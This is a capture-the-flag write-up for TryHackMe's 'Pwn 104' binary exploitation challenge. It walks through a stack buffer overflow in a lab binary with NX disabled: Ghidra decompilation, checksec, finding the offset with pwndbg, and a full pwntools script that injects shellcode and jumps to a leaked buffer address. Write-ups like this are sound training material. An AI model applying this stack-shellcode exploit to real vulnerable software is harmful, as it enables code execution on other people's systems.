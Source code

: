 ```yaml
---
author: pl4int3xt
layout: post
title: Pwn 104 - Tryhackme
date: '2024-01-19'
description: "Beginner level binary exploitation challenges from Tryhackme"
categories: [Pwn 101]
tags: [binary exploitation, Tryhackme ]
---
```


Let's download the task file and decompile the binary with ghidra. `main()` has a buffer overflow in the read since `local_58` is set to 80 but `read()` reads 200 characters which are more than 80. The binary also leaks the location of the buffer.

```c
void main(void){
  undefined local_58 [80];
  
  setup();
  banner();
  puts(&DAT_00402120);
  puts(&DAT_00402148);
  puts(&DAT_00402170);
  printf("I\'m waiting for you at %p\n",local_58);
  read(0,local_58,200);
  return;
}
```

Running checksec we notice that NX (No Execute) bit is disabled meaning that stored input or data can be executed as code.
>  All we need to do is to get the offset
> * leak the buffer location 
> * subtract the length of our shellcode from the offset to create some space for our shellcode.
> * Finally call the buffer location to execute the shellcode

```shell
pl4int3xt@archlinux ~/D/p/pwn104> checksec --file=pwn104.pwn104
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   46 Symbols	 No	pwn104.pwn104
```

Let's open pwndbg with our binary and try to crash it

```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> run
Starting program: /home/pl4int3xt/Documents/pwn/pwn104/pwn104.pwn104 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 104          

I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 0x7fffffffe610
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.
0x000000000040124e in main ()
```

Finally let's get our offset

```shell
pwndbg> cyclic -l laaaaaaa
Finding cyclic pattern of 8 bytes: b'laaaaaaa' (hex: 0x6c61616161616161)
Found at offset 88
```

Let's craft our python code

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Set up pwntools for the correct architecture
exe = './pwn104.pwn104'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
# context.log_level = 'debug'

# Start the executable
io = start()

# How many bytes to the instruction pointer (RIP)?
padding = 88

io.recvuntil(b'at ') # program leaks the buffer location and we need to get it
address = io.recvline() 
bufferLocation = p64(int(address, 16))

shellcode = asm(shellcraft.cat('flag.txt'))
shellcode += asm(shellcraft.exit())

payload = flat(
    shellcode,
    asm('nop') * (padding - len(shellcode)),
    bufferLocation
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendline(payload)

# Receive the flag
io.interactive()
```

Let's run our code and get the flag

```shell
pl4int3xt@archlinux ~/D/p/pwn104> python3 pwn104.py REMOTE 10.10.135.73 9004
[+] Opening connection to 10.10.135.73 on port 9004: Done
[*] Switching to interactive mode
THM{REDACTED ..}
[*] Got EOF while reading in interactive
$ 
```